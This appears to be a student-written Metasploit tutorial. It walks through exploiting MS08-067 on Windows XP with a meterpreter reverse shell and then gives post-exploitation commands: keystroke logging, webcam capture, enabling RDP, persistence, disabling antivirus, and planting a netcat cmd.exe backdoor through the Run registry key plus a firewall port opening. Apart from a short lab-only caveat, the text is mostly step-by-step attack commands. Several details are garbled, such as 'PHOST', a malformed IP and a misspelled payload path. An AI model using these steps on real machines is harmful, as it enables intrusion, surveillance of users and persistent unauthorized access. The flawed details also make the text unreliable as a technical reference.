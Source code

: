 
###Metasploit Instructions
##Introduction
Metasploit is a software tool used for using exploit to test the vulnerability of a computer or server and uses the exploits to gain access to things that had restricted access. This helps computer users understand how defenseless their computer is and important it is that they should fix it. It also allows the users to understand the importance of security. The needed knowledge and skills that come with Metasploit is the ability to use nmap and exploit scanners because the Metasploit doesn’t actually scan for vulnerabilities instead it can only exploit. Without the nmap or exploit scanners you cannot actually use Metasploit because you will not know what exploit to actually use. One should also be able to use and understand some sort of command line in linux or Windows. The necessary tools for Metasploit are a vulnerability scanner of some sort to find out what exploits you need.  Another virtual machine or a computer that belongs to the Metasploit user is also necessary since it is illegal to use Metasploit to exploit and gain access to computers that they are not allowed to access. One must download and install Metasploit.  The steps that I will cover in this are the ability to use the Exploit database and find the exploit that is needed, I will move to how to use the exploit and how to execute said exploit and lastly I will cover how to make use of said exploit by either metepreter or command line.
##Exploiting
If you were to find your exploit from a using an exploit scanners you can skip this step. Otherwise use nmap to find out what type of OS the system you are trying to exploit uses, and see if it is unpatched version of the OS.  Once you have found out what OS it is you should look up what exploits can be used for this system’s vulnerability. For example say you are using windows XP on your computer and port 445 is open.  You could google different exploits that are used for windows XP service that are available in Metasploit.  We find that there is an exploit called MS08-67 for windows. If you were using an exploit scanner it would tell you vulnerability on that system and you wouldn’t need to google what it is.  Instead one could find out much about the different exploits from info provided by the scanner. Once you find out what the name of the exploit is you now can use Metasploit. Firstly you want to use the Metasploit console and enter the line `use exploit/ `and because we are using windows we will use `use exploit/windows/`After this we need to know what kind of exploit this is luckily though we already know what kind of exploit this from the google search or the exploit scan. Once we get this down we can now use tab to list the number of exploits that you that windows has. But since we already know which exploit we are going to use we use the command `use exploit/windows/smb/ms08_067_netapi`.
##Payload
After getting to the exploit we need there are multiple things we must set up before we can use the exploit against the vulnerable computer. To do this we use the show options command in Metasploit which will give us three options for the MS08-67 exploit, but we will only be using the first two.  The first option is RHOST which is the address of the host. We use the command `set RHOST 127.0.0.0.1`with the correct IP address of the user you are using. The second option is PHOST with this we must use an open port that the target computer has open. We set this to port 445 because that is the port that is used for this type of exploit. One would have figured this out from previous steps such as the nmapping or exploit scan. 
#More payload info
The next step in the process is to set the payload. With this we use the show payload command which shows every type of payload we can use for this exploit. For this one we will use the metepreter reverse tcp . This allows us to use the metepreter function of Metasploit which has many different tools and built in scripts. So to do this we the command “set  `payload windows/metepreter/reverse-tcp`. This step sets the payload to activate we you use the run command. Before you can run it you must set the properties for the payload. For this we use show payload options and one can see that there is two different options. The first option is LHOST which we want to set to your ip address. To change this we use the `set LHOST 127.0.0.1.`. The second option is the port you want to use to connect to the exploited machine.  To change this we use `set LPORT 6666`. After this is all done and it done correctly we should be able to run the exploit against the vulnerable. With the command `exploit`.


##Post Exploitation
If everything is working correctly the exploit should work and the payload should drop. We should have access to the metepreter. At this point there a few things we can and should do. First thing we want to do is check the system we are running on. There are multiple things you can do now with this now which I will split into multiple sections.
###Gaining Information
The first section will be about getting information about the user from metepreter.  The first thing we can run is the sysinfo command to get the system information of the computer that you are running. This will be extremely helpful if you were unaware of how patched the XP machine is. The next thing we can do is use a keylogger to get passwords or personal information about the user. We do this by using the command `keyscan` into the metepreter. With this it will scan for keystrokes and when we want to see what the user has typed in we use the `key_dump` to see what the user has typed in. Another thing you can do on the machine is see the user screen. This is done through the command `getgui –u username –p password`. This will enable rdp if it has been disabled and will allow you to get access to the screen of the computer. The last thing I will include in getting information about the user is the webcam command. To see if the computer has any webcams we use the command `webcam_list` and if there is one we can use the command `webcam_snap` which will take a picture of the person using the computer.
###Mataining Access
The next section I will talk about is how to maintain access to the computer. The next thing you should do is use the metepreter persistence which will allow you to have access to the system under certain situations.  To do this we use the command `run persistence –X –i  5 –p 6665 –r  127.0.0.1`. The –X will connect you to the computer whenever you have metepreter open and the system is booted up. The –i is the intervals that it will try to connect to the host. The –p is for the port that you will be connecting to and the –r is used for your ip address. This will allow you connect the infected machine even after the user has shut down when the user turns it back on instead of kicking you off for good. Let also say we want to make sure we don’t get kicked off the machine by an antivirus, we could run the command `killav` which can disable many anti viruses. We can also use the command `run getcountermeasures` to see if we can disable firewalls of the infected computer. The last thing you might want to do is install a backdoor to get to the computer if the persistence command fails. This can be done with the by first uploading netcat to the remote system using the command `upload /usr/share/windows-binaries/nc.exe C:\windows\system32` which will put the netcat executable onto the vulnable machine. The next thing we do is to allow it to run at every time the computer starts up so we use the command `reg setval -k HKLM\software\microsoft\windows\currentversion\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 455 -e cmd.exe`. This will make the netcat start everytime with port 455 open.  The last thing we need to is make sure the firewall will enable the netcat connection to go through ( which could be avoided if you disabled the firewall with getcountermeasures). We do this by using the command `netsh firewall add portopening TCP 455 "Service Firewall" ENABLE ALL` which will open up the port to be accessed through the firewall. With the backdoor installed you no longer need to use metesploit to log into the vulnerable machine. Instead you need only to use `nc -v 127.0.0.01 455` in your commandline to connect to the machine that you have infected.
##Conclusion
While this is only one of the exploits that you can to gain access to computer the purpose of the exploit is many of things taught in these instructions can be substituted for other exploits or scripts. So even though it doesn’t cover all of the types of instructions many things can be learned from just one example of an exploit. I choose the MS08-67 exploit because it was easy and allows for remote access while some exploits do not. Hopefully these instructions will help you understand Metasploit better and how to be safer and more proficient with computers.
